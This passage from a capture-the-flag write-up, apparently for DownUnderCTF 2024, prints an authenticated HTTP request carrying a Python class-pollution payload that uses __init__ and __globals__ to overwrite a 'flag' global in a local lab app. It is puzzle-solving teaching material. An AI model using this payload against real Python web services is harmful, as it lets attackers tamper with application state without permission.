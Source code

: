 **To do so, we'll send a POST request to `/save_feedback` with the following JSON body:**
```http
POST /save_feedback HTTP/1.1
Host: localhost:1337
Cookie: session=.eJwlzkEOwkAIAMC_7NkDy8IC_YyhC0SvrT0Z_66J84J5t3sdeT7a9jquvLX7M9rWNESqArEAVHCIdQCWvmuf0xQXuyImLjIG8MIkhAAaPSZlDuxqZQg1yIUKrLw4MtLcfU2sGG6LhKY6M6MgY-61qEsCabVf5Drz-G96-3wBOFMuUQ.Zozftw.Q_HN_NwdRGrGpCl4NjPSjxXdOcw
Content-Length: 7
Content-Type: application/json

{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "flag": "true"
        }
    }
}
```

> Note: Remember, this route requires authentication.

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709150007.png)
